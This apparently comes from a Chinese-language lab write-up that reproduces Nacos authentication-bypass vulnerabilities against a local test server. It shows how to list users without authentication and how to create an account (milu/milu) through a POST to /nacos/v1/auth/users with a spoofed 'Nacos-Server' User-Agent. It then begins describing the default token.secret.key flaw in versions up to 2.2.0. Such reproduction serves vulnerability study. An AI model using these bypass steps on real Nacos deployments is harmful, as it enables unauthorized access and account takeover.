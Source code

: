 ```  
  
3.1    验证漏洞  
  
访问如下地址查看用户列表  
  
```
http://192.168.233.131:8848/nacos/v1/auth/users?pageNo=1&pageSize=1
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5uoB5GHgCKptkhXA6VUTtOyvOtscwO8nTaFL19nmvMZoJmibRia8eK1jzQ9ic1cfKgM5Pr45PsIUjL34A/640?wx_fmt=png&from=appmsg "")  
  
虽然有password了, 但是是加盐过的,解密不了  
  
3.2    添加一个账号密码  
  
POST    访问    /nacos/v1/auth/users  
  
添加POST参数  
  
username=milu&password=milu  
  
修改ua为          
Nacos-Server  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5uoB5GHgCKptkhXA6VUTtOyviboib30zGSQxYRhG1Ele8ibbrxqeSU5N4AaJITMq2Veg0KSspeAQlgwhg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5uoB5GHgCKptkhXA6VUTtOyv3T7friaRvcLibn5XdsMsEjtXPffnkaIcxJiaswo2yTP0GSaZJ3EDXwFKA/640?wx_fmt=png&from=appmsg "")  
  
200ok  
  
3.3    用milu,milu去登录  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5uoB5GHgCKptkhXA6VUTtOyvsKLjKYW36xDOxX5KibmiaHpEHwKFG3gx8rlM4icp442bTAnYicXjscyvFQ/640?wx_fmt=png&from=appmsg "")  
  
关闭环境  
  
./shutdown.sh  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/mfPo9TiaS3coAKiaKLLG0Apn3z0m0xkTfPGXWiaDTW2z0bZ2rDvLiaNiaSPTmcux3pzc8hsTMsj4h360Hfuax7pltmA/640?wx_fmt=png "")  
  
secret.key 默认密钥   
CNVD-2023674205  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibwbKh16rrm4yUEtxo5kFpqxcbTE8tDVW3PEPKaMia7XxibwcCvvHprfN0ic1Aq0DpUksLnJvU7IFuWmWmxticKKr8g/640?wx_fmt=png "")  
  
  
  
  
**1.漏洞描述:**  
  
Nacos使用token.secret.key来进行身份认证和加密。  
在  
Nacos版本 <= 2.2.0 时,，这个密钥  
是固定的默认值，导致存在一个安全漏洞。  
  
```